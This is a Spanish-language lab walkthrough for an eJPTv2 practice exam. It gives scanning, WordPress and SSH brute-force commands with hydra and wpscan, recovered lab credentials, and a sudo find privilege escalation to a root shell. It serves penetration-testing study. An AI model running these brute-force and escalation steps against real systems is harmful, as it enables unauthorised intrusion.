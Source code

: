 # Simulación de examen eJPTv2

Tags: #Nmap #Apache #WordPress #Linux #Dirbuster #Hydra #SearchSploit #SSH 

## Maquina 1 

- IP ->  VMware
- Ports -> TCP (22, 80, 3306), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.9p1 Debian 10+deb10u2
    - 80 -> Apache httpd 2.4.38
    - 3306 -> MySQL 5.5.5-10.3.38-MariaDB-0+deb10u1

## Recon

Con estos dos comandos podemos escanear la red en donde nos encontremos. 
```bash
❯ arp-scan -I ens33 --localnet --ignoredups       # Para hacer un escaneo de la red local, no puedes encontrar mas usuarios despues del router que no pertenecen a tu red
```

```bash 
❯ nmap -sn ❮Target_IP/24❯                         # Usara ARP para escanear la red
``` 

Para ver los puertos y servicios.
```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

### Enumeración del Puerto 80
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Abrimos la pagina web en el navegador, encontramos un Apache como pagina por el puerto 80.

Ahora vamos a enumerar la web, para encontrar mas directorios.
```python
❯ dirb http://<IP>/             # Para encontrar rutas en la pagina web  

# Encontramos varias rutas como 
	# /admin, /Downloads, /wordpress, /server-status, /admin/doc
```

Como encontramos un WordPress, enumeraremos los usuarios con su herramienta. 
```bash
❯ wpscan --url http://URL/wordpress/ -e u                                             # Enumeracion WordPress

	# u = Enumerar usuarios

# Encontramos algunos usuarios como 
	# admin, hugo, philip
```

```bash
❯ wpscan --url http://URL/wordpress/ --passwords /usr/share/wordlists/rockyou.txt      # BruteForce

	# passwords = Enumerar passwords

# Encontramos algunas passwds  
	# admin:password, hugo:9876543210, philip:password

# Tambien nos muestra que el WordPress tiene una version 4.8.22, buscando la version actual que es 6.1
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

* También podríamos enumerar los plugin. 
```bash 
/wordpress/wp-admin/plugins.php
```

En dado caso de que no tengamos esas herramientas, podemos usar Hydra, para encontrar usuarios y sus passwd
Esto se usa en el panel del admin de WP.
```python
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt http://IP http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid user'
# Haremos un ataque de fuerza bruta a WordPress

	# l (ele) = Usuario que en este caso es  'admin'
	# P = Ruta del diccionario
	# log y pwd = Lo podemos encontrar en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que nos muestre el panel de autenticacion, por si no sirve con el 'S'
```

Y así logramos entrar al login de la web. 


### Enumeración del Puerto 22

```bash
❯ searchsploit openssh 7.9p1                 # Para buscar un exploit con esa version de OpenSSH, pero como no encontramos usaremos Hydra
```

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯/ 
# Haremos un ataque de fuerza bruta al puerto SSH

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users'

# Encontramos dos usuarios y dos passwd
	# vagrant:vagrant, debian:debian
```

## User

```bash
❯  ssh ❮User❯@❮IP❯                                  # Para conectarnos por ssh en el puerto default 22 con los usuarios obtenidos 
```

## Root

```
❯ contrab -l       # Listas las tareas CRON 
```

```bash 
❯ find / -perm -4000 2>/dev/null                  # Para ver que comandos son SUID, los buscamos desde la raiz 
❯ find / -perm -4000 -ls 2>/dev/null              # Para ver que comandos son SUID, los buscamos desde la raiz y ademas miramos el privilegio
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

Buscamos en la siguiente pagina:
- **GTFOBins**: [https://gtfobins.github.io](https://gtfobins.github.io/)
* [Find-exploit](https://andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/)

```bash 
sudo find /etc/passwd-exec /bin/bash \;
```